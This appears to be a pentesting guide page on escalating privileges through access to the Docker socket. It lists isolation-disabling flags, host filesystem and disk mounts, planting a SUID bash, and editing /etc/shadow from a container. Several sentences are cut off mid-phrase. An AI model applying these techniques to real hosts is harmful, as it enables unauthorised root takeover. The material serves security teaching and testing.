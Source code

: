 There are some occasions were you just have access to the docker socket and you want to use it to escalate privileges. Some actions might be very suspicious and you may want to avoid them, so here you can find different flags that can be useful to escalate privileges:

### Via mount

You can mount different parts of the filesystem in a container running as root and access them.
You could also abuse a mount to escalate privileges inside the container.

`-v /:/host` -> Mount the host filesystem in the container so you can read the host filesystem.

If you want to feel like you are in the host but being on the container you could disable other defense mechanisms using flags like:

`--privileged`

`--cap-add=ALL`

`--security-opt apparmor=unconfined`

`--security-opt seccomp=unconfined`

`-security-opt label:disable`

`--pid=host`

`--userns=host`

`--uts=host`

`--cgroupns=host`

**`--device=/dev/sda1 --cap-add=SYS_ADMIN --security-opt apparmor=unconfined` ** -> This is similar to the previous method, but here we are mounting the device disk. Then, inside the container run `mount /dev/sda1 /mnt` and you can access the host filesystem in `/mnt`

Run `fdisk -l` in the host to find the `</dev/sda1>` device to mount

`-v /tmp:/host` -> If for some reason you can just mount some directory from the host and you have access inside the host. Mount it and create a `/bin/bash` with suid in the mounted directory so you can execute it from the host and escalate to root.

Note that maybe you cannot mount the folder `/tmp` but you can mount a different writable folder. You can find writable directories using: `find / -writable -type d 2>/dev/null`

Note that not all the directories in a linux machine will support the suid bit! In order to check which directories support the suid bit run `mount | grep -v "nosuid"` For example usually `/dev/shm` , `/run` , `/proc` , `/sys/fs/cgroup` and `/var/lib/lxcfs` don't support the suid bit.

Note also that if you can mount `/etc` or any other folder containing configuration files, you may change them from the docker container as root in order to abuse them in the host and escalate privileges (maybe modifying `/etc/shadow`)

### Escaping from the container

`--privileged` -> With this flag you . Check techniques to .

`--cap-add=<CAPABILITY/ALL> [--security-opt apparmor=unconfined] [--security-opt seccomp=unconfined] [-security-opt label:disable]` -> To , grant that capability to the container and disable other protection methods that may prevent the exploit to work.

### Curl

In this page we have discussed ways to escalate privileges using docker flags, you can find ways to abuse these methods using curl command in the page: